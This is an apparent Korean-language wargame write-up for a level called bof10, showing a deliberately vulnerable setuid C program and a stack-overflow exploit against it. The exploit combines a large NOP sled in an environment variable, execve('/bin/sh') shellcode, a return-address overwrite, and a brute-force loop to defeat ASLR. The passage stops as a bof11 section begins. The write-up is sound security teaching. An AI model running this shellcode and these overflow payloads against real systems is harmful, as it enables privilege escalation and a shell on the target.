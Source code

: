 # bof10

<details>
<summary>bof10.c</summary>

```c
// AFTER => bof9.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR ON
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg) {
    char buf[BUF_SIZE];

    if (setreuid(1011, 1011)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1011, 1011)) {
        perror("setgid");
        exit(1);
    }
    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
    printf("(env:SHELLCODE -> %p)\n", getenv("SHELLCODE"));
}

int main(int argc, char *argv[]) {
    vuln(argv[1]);
    return 0;
}
```
</details>

다음 코드를 보면 함수 인자를 받아서 vuln함수에 넘기는 것을 볼 수 있다. 그리고 나머지는 bof8과 같다. 그럼 bof8처럼 환경변수를 설정하고 환경변수 주소를 ret에 덮어씌우면 되는지 확인을 해봤다.

![](./image/1.png)

실행시킬 때마다 주소값이 바뀌는 것을 확인할 수 있다. 따라서 다른 방법을 생각해보아야 한다.

주소값이 계속 바뀐다면 특정을 할 수 없기 때문에 nop을 이용해보자. ret에 nop이 존재하는 주소를 보낸다면 결국 nop을 타고 환경변수의 주소에 도달하게 되어 환경변수를 실행시킬 수 있을 것 같다.


다음과 같이 환경변수를 설정할 때 nop을 무진장 많이 넣어주자. 그러면 스택 구조상 환경변수가 저장되는 부분에는 수많은 nop이 존재한다. 그렇기 때문에 ret이 그 사이를 가리키게 된다면 SHELLCODE가 실행될 수 있다.

```
export SHELLCODE=`python -c "print '0x90' * 130000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x
50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

```

vuln을 실행 했을 때 esp(ret의 주소)

![](./image/4.png)

버퍼오버플로우에 취약한 strcpy를 실행할 때 disassemble. 32비트는 인자를 스택에다가 push하여 전달하고 call할때 pop을 하기때문에 첫번째 인자인 buf의 주소는 마지막에 push된 ebp - 0x10에 저장되어 있다.

![](./image/2.png)

ebp - 0x10 값과 두 ret과 buf 주소값의 차이

![](./image/3.png)


이를 통해서 다음과 같은 페이로드를 작성해보자. 마지막의 주소값은 처음 실행시켜보았을 때 나온 환경변수 SHELLCODE의 주소값이다.
```
./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`
```
당연히 안될 것이다. ~~만약 운이 엄청나게 좋았더라면 됬을것이다.~~

대충 메모리의 구조이다.(너무 못그려서 그냥 보고만 지나가자) 

[여기(day9)](https://github.com/ccss17/security-tutorial/tree/master/09-Exploit4)에 환경변수에 nop을 많이 넣어 임의의 주소값을 ret에 주게 될때 ret이 nop이 있는 곳을 가르킬 확률이 너무 잘 나와있다.

![](./image/5.png)

여튼 너무 낮은 확률이지만 어느정도 가능성이 있기때문에 무한 반복을 하다보면 언젠가는 얻어 걸릴 것이다.

```
while true; do ./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`; done
```

![](./image/nop.gif)


# bof11

<details>
<summary>bof11</summary>